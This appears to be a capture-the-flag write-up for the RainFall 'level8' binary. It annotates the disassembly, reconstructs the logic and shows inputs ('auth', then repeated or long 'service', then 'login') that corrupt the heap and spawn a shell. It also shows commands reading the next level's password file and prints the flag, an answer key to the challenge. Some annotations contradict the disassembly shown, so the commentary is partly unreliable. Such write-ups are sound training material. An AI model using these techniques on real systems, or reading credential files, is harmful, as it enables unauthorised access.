


### notes

```c
0x08049aac  auth
0x08049ab0  service
0x08048564  main
```

### 0x08048529 : main() : disassembly

- notebook: (to convert `hex` to `dec` and assign variable names for better reading)

```c

{
    int argc = ebp+8
    char **argv = ebp+12

    inputBuffer = esp+32
    buffer_2 = esp+28


    0xa0 ... 160
    0x80 ... 128
    0x20 ... 32
    0x1e ... 30
    0x1c ... 28
}
```

- **`<0> -> <+8> : prepare stack frame for n function with size 160`**

```c
0x08048564 <+0>:	push   ebp
0x08048565 <+1>:	mov    ebp,esp
0x08048567 <+3>:	push   edi
0x08048568 <+4>:	push   esi
0x08048569 <+5>:	and    esp,0xfffffff0
0x0804856c <+8>:	sub    esp,160
```
- **`<+14> : jump to next line after nop, after 1 line , means its a WHILE loop here`**
- **`<+16> :nop: is non-operation instruction, means the programm will do nothing at this instruction`**
```c
0x08048572 <+14>:	jmp    0x8048575 <main+17>
0x08048574 <+16>:	nop
```
- **`<+16> -> <+45> : print the addresses of auth and service in order to screen`**
```c

0x08048575 <+17>:	mov    ecx,DWORD PTR ds:service
0x0804857b <+23>:	mov    edx,DWORD PTR ds:auth
0x08048581 <+29>:	mov    eax,0x8048810 // "%p, %p \n"
0x08048586 <+34>:	mov    DWORD PTR [esp+8],ecx
0x0804858a <+38>:	mov    DWORD PTR [esp+4],edx
0x0804858e <+42>:	mov    DWORD PTR [esp],eax
0x08048591 <+45>:	call   0x8048410 <printf@plt>
printf("%p, %p \n", auth, service);
```
- **`<+50> -> <+74> : takes 159 character from user input and save it to inputBuffer`**
```c
0x08048596 <+50>:	mov    eax,ds:stdin
0x0804859b <+55>:	mov    DWORD PTR [esp+8],eax
0x0804859f <+59>:	mov    DWORD PTR [esp+4],128
0x080485a7 <+67>:	lea    eax,[inputBuffer]
0x080485ab <+71>:	mov    DWORD PTR [esp],eax
0x080485ae <+74>:	call   0x8048440 <fgets@plt>
fgets(inputBuffer, 160, stdin);
```
- **`<+79> -> <+81> : if user input is empty skip all and return to head of while loop`**
```c
0x080485b3 <+79>:	test   eax,eax
0x080485b5 <+81>:	je     0x804872c <main+456>
```
- **`<+87> -> <+121> : repz cmps equivalent to strNcmp, compare inputBuffer to auth+space`**
- **`<+124> -> <+126> : if the comparison is not valid: jump to +222 the next instruction where "reset" is verified`**
```c
0x080485bb <+87>:	lea    eax,[inputBuffer]
0x080485bf <+91>:	mov    edx,eax
0x080485c1 <+93>:	mov    eax,0x8048819 // "auth "
0x080485c6 <+98>:	mov    ecx,5
0x080485cb <+103>:	mov    esi,edx
0x080485cd <+105>:	mov    edi,eax
0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080485d1 <+109>:	seta   dl
0x080485d4 <+112>:	setb   al
0x080485d7 <+115>:	mov    ecx,edx
0x080485d9 <+117>:	sub    cl,al
0x080485db <+119>:	mov    eax,ecx
0x080485dd <+121>:	movsx  eax,al

0x080485e0 <+124>:	test   eax,eax
0x080485e2 <+126>:	jne    0x8048642 <main+222>
if (strNcmp(inputBuffer, "auth ", 5) === 0) { jump to <main+222>}
```
- **`<+128> -> <+140> : allocate 4 bytes in the Heap and put the return address in auth`**
- **`<+145> -> <+150> : set first case of auth to 0 , auth[0]`**
```c
0x080485e4 <+128>:	mov    DWORD PTR [esp],4
0x080485eb <+135>:	call   0x8048470 <malloc@plt>
0x080485f0 <+140>:	mov    ds:auth,eax
auth = malloc(4);
0x080485f5 <+145>:	mov    eax,ds:auth
0x080485fa <+150>:	mov    DWORD PTR [eax],0
auth[0] = 0
```
- **`<+156> -> <+188> : reqpnz scas equivalent to strlen in libc, calculate length of inputBuffer`**
- **`<+190> -> <+190> : check if length inputBuffer strictly superior than 30, if true jump to +222 (instruction where reset is verified)`**
```c
0x08048600 <+156>:	lea    eax,[inputBuffer] // eax = inputBuffer
0x08048604 <+160>:	add    eax,5 // eax = inputBuffer + 5
0x08048607 <+163>:	mov    DWORD PTR [buffer_2],0xffffffff // -1
0x0804860f <+171>:	mov    edx,eax // edx = inputBuffer + 5
0x08048611 <+173>:	mov    eax,0
0x08048616 <+178>:	mov    ecx,DWORD PTR [buffer_2] // ecx = -1
0x0804861a <+182>:	mov    edi,edx
0x0804861c <+184>:	repnz scas al,BYTE PTR es:[edi]
0x0804861e <+186>:	mov    eax,ecx
0x08048620 <+188>:	not    eax

0x08048622 <+190>:	sub    eax,1
0x08048625 <+193>:	cmp    eax,30
0x08048628 <+196>:	ja     0x8048642 <main+222> // ja == Strictly Superior (Above)
if (strlen(inputBuffer + 5) > 30) { jump to <main+222>}
```
- **`<+198> -> <+217> : copy whatever comes after 5th index of inputBuffer in auth`**
**`why the 5th index ? : becus its the length of word "auth " so we copy the value after "auth "`**
```c
0x0804862a <+198>:	lea    eax,[inputBuffer]
0x0804862e <+202>:	lea    edx,[eax+5]
0x08048631 <+205>:	mov    eax,ds:auth
0x08048636 <+210>:	mov    DWORD PTR [esp+4],edx // inputBuffer + 5
0x0804863a <+214>:	mov    DWORD PTR [esp],eax // auth
0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
strcpy(auth, inputBuffer + 5);
```
- **`<+222> -> <+256> : strNcmp : compare the input buffer to "reset" , if true : free auth memory area`**
- **`<+259> -> <+261> : if the input is not "reset" jump +276 (instruction of service check)`**
```c
0x08048642 <+222>:	lea    eax,[inputBuffer]
0x08048646 <+226>:	mov    edx,eax
0x08048648 <+228>:	mov    eax,0x804881f // "reset"
0x0804864d <+233>:	mov    ecx,5
0x08048652 <+238>:	mov    esi,edx
0x08048654 <+240>:	mov    edi,eax
0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x08048658 <+244>:	seta   dl
0x0804865b <+247>:	setb   al
0x0804865e <+250>:	mov    ecx,edx
0x08048660 <+252>:	sub    cl,al
0x08048662 <+254>:	mov    eax,ecx
0x08048664 <+256>:	movsx  eax,al

0x08048667 <+259>:	test   eax,eax
0x08048669 <+261>:	jne    0x8048678 <main+276>
if (strNcmp(inputBuffer, "reset") != 0) { jump to <main+276>}
```
- **`<+263> -> <+271> : free auth allocated area in memory`**
```c
0x0804866b <+263>:	mov    eax,ds:auth
0x08048670 <+268>:	mov    DWORD PTR [esp],eax
0x08048673 <+271>:	call   0x8048420 <free@plt>
free(auth);
```
- **`<+276> -> <+310> : verify with strncmp if the input is "service", if not true jump to +337 where login is checked`**
- **`<+313> -> <+315> : ...`**
```c
0x08048678 <+276>:	lea    eax,[inputBuffer]
0x0804867c <+280>:	mov    edx,eax
0x0804867e <+282>:	mov    eax,0x8048825 // "service"
0x08048683 <+287>:	mov    ecx,6
0x08048688 <+292>:	mov    esi,edx
0x0804868a <+294>:	mov    edi,eax
0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x0804868e <+298>:	seta   dl
0x08048691 <+301>:	setb   al
0x08048694 <+304>:	mov    ecx,edx
0x08048696 <+306>:	sub    cl,al
0x08048698 <+308>:	mov    eax,ecx
0x0804869a <+310>:	movsx  eax,al

0x0804869d <+313>:	test   eax,eax
0x0804869f <+315>:	jne    0x80486b5 <main+337>
if (strNcmp(inputBuffer, 6, "service") != 0) { jump to <main+337>}
```
- **`<+317> -> <+332> : clone what comes after "service" (without a space) into the Heap and put return address in 'service' variable`**
```c
0x080486a1 <+317>:	lea    eax,[inputBuffer]
0x080486a5 <+321>:	add    eax,7
0x080486a8 <+324>:	mov    DWORD PTR [esp],eax
0x080486ab <+327>:	call   0x8048430 <strdup@plt>
0x080486b0 <+332>:	mov    ds:service,eax
service = strdup(inputBuffer + 7);
```
- **`<+337> -> <+371> : compare first 5 characters of inputBuffer to 'login'`**
- **`<+374> -> <+376> : if inputBuffer != "login" repeat the while loop again until your battery die :) `**
```c
0x080486b5 <+337>:	lea    eax,[inputBuffer]
0x080486b9 <+341>:	mov    edx,eax
0x080486bb <+343>:	mov    eax,0x804882d // "login"
0x080486c0 <+348>:	mov    ecx,5
0x080486c5 <+353>:	mov    esi,edx
0x080486c7 <+355>:	mov    edi,eax
0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080486cb <+359>:	seta   dl
0x080486ce <+362>:	setb   al
0x080486d1 <+365>:	mov    ecx,edx
0x080486d3 <+367>:	sub    cl,al
0x080486d5 <+369>:	mov    eax,ecx
0x080486d7 <+371>:	movsx  eax,al

0x080486da <+374>:	test   eax,eax
0x080486dc <+376>:	jne    0x8048574 <main+16>
if (strNcmp(inputBuffer + 5, "login") != 0) { jump to <main+16>}
```
- **`<+382> -> <+392> : if auth[32] == null print Password to screen`**
```c
0x080486e2 <+382>:	mov    eax,ds:auth
0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+32]
0x080486ea <+390>:	test   eax,eax
0x080486ec <+392>:	je     0x80486ff <main+411>
if (auth[32] == 0) { jump to <main+411>}
```
- **`<+394> -> <+401> : execute the shell`**
```c
0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833 // "/bin/sh"
0x080486f5 <+401>:	call   0x8048480 <system@plt>
system("/bin/sh");
```
- **`<+496> : go back to top of while()`**
```c
0x080486fa <+406>:	jmp    0x8048574 <main+16>
```
- **`<+411> -> <+446> : print "Password:\n" to screen, nothing fancy xD hhhh`**
```c
0x080486ff <+411>:	mov    eax,ds:stdout
0x08048704 <+416>:	mov    edx,eax
0x08048706 <+418>:	mov    eax,0x804883b // "Password:\n"
0x0804870b <+423>:	mov    DWORD PTR [esp+12],edx
0x0804870f <+427>:	mov    DWORD PTR [esp+8],10
0x08048717 <+435>:	mov    DWORD PTR [esp+4],1
0x0804871f <+443>:	mov    DWORD PTR [esp],eax
0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
fwrite("Password:\n", 1, 10, stdout);
```
- **`<+451> : ...`**
```c
0x08048727 <+451>:	jmp    0x8048574 <main+16>
```
- **`<+456> : no operation instruction`**
- **`<+457> : set eax = 0, so it will be used as return param`**
- **`<+462> : ...`**
- **`<+465> -> <+468> : ...`**
```c
0x0804872c <+456>:	nop
0x0804872d <+457>:	mov    eax,0
0x08048732 <+462>:	lea    esp,[ebp-8]
0x08048735 <+465>:	pop    esi
0x08048736 <+466>:	pop    edi
0x08048737 <+467>:	pop    ebp
0x08048738 <+468>:	ret
return (0);
```
---

### Code Prediction

```js
const *auth;
const *service;
function main() {
    const *inputBuffer[160];

    while(true) {

        printf("%p, %p \n", auth, service);
   
        if (fgets(buffer, 128, stdin) != 0) {
            // -----------------------------------------        
            if (strNcmp(inputBuffer, "auth ") == 0) {

                auth = malloc(4);
                auth[0] = 0;

                if (strlen(inputBuffer + 5) <= 30)
                    strcpy(auth, inputBuffer + 5);
            }
            // -----------------------------------------
            if (strNcmp(inputBuffer, "reset") == 0) 
                free(auth);
            
            // -----------------------------------------
            if (strNcmp(inputBuffer + 6, "service") == 0) 
                service = strdup(inputBuffer + 7);
            
            // -----------------------------------------
            if (strNcmp(inputBuffer + 5, "login") == 0) 
                if (auth[32] == 0) 
                    fwrite("Password:\n", 1, 10, stdout);
                else
                    system("/bin/sh");
        }
    // -----------------------------------------
    }
    return (0);
}

```
---
### Process of the Exploit
- there is 2 global variable (null)
    1. service
    1. auth
- program keep executing in an infinit loop until auth[32] is not null
- program takes an input and run a check each time
- programm understand 3 inputs that start with :
    1. [auth ] xxxx
    1. [service ] xxxx
    2. [reset]
- what happend in each case ? :
    1. **auth**:
        - allocate 4 bytes in the memory for auth
        - put 0 in index 0 of auth (auth[0] = 0)
        - check if the input given after __[auth ]__ if less than or equal to 30
            - notice it takes what comes after __auth+space__, e.g : __authADMIN__ will not be recognized, but  __auth ADMIN__ is valid
        - if yes copy it to auth with strcpy without check for length
    1. **service**:
        - takes all what comes after __[service]__ and clone it into the heap
        and put the pointer address into service variable
         ___service = strdup(inputBuffer + 7);___
    1. **reset**:
        - free the memory allocated for auth ___free(auth)___ .
    1. **login**:
        - check if auth[32] is null
            1. **true** : print `Password:` to screen and go back to loop again
            1. **false**: execute the shell with ___system("/bin/sh");___

#### memory overview (with GDB):
lets setup the gdb debugger with following commands :
```shell
set disassembly-flavor intel
set height 0
set pagination off
define hook-stop
x/20wx 0x0804a000
echo ------------[service] -----------------\n
x/s service
x service
echo ------------[auth] --------------------\n
x/s auth
x auth
echo ------------[auth+30] -----------------\n
x/s auth+0x20
echo ---------------------------------------\n
continue
end
```

1. lets try give the following inputs:

    - **auth allali**
    - **service AAAA**
    look at the screenshots:

        

        - **green** : where our input is saved (allali\n)
        - **red** : what the program checks to give  us the shell
    - you may think lets just fill the auth area until we reach it,
        smart ass xD the prgramm doesnt clone into the memory until the the user input is less that 31 character
        ```js
        if (strlen(inputBuffer + 5) <= 30)
            strcpy(auth, inputBuffer + 5);
        ```
        ---
        

        - **green** : the auth content (allali\n)
        - **blue**  : the service content ( AAAA), notice that the space after `service AAAA` is copied too
        - **red**   : the area that needs to be != null

        ---
        

        - **green** : the auth content (allali)
        - **blue**  : the first service content ( AAAA), notice that the space after `service AAAA` is copied too
        - **red**   : the second service content ( BBBB) and same time its writing in the area wanted which is auth+32,

        ---
by analysing that we come with a conclustion by writing more in the memory we will surely reach the area wanted which is 30 bytes away from the start of auth pointer (0x8041008)

#### possible solutions:
1. we can either go for service command 2 times no matter the input
1. or fill 16 bytes with one service __service[16 characters]__

     

    __SEEE :)__ : since service is not limited with a specefic length , we were able to fill it with 16 bytes and that led to write in memory until we reached the area checked for shell execution, which is at the offset of 16
1. mmmmmm  i dont know any **third solution** to be honest, **if you KNOW**, **open a pr <3**
---

### Solution :
#### solution 1:
- by calling service two times with or without a value after service
`\n` will always be taken as value if you left it empty after service and pressed ENTER
    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth abdellah
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    $ pwd
    /home/user/level8
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```
#### solution 2:
- on call for service but will enough length to reach the wanted area
    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth allali
    0x804a008, (nil) 
    service0123456789123456
    0x804a008, 0x804a018 
    login
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```
* or :

    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth allali
    0x804a008, (nil) 
    service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    $ 
    ```
**Flag : `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`**

---

### Ressources :

- **_[[Video] : The Heap: How do use-after-free exploits work? - bin 0x16](https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)_**
- **_[Exercice in PROTOSTAR](https://exploit.education/protostar/heap-two/)_**

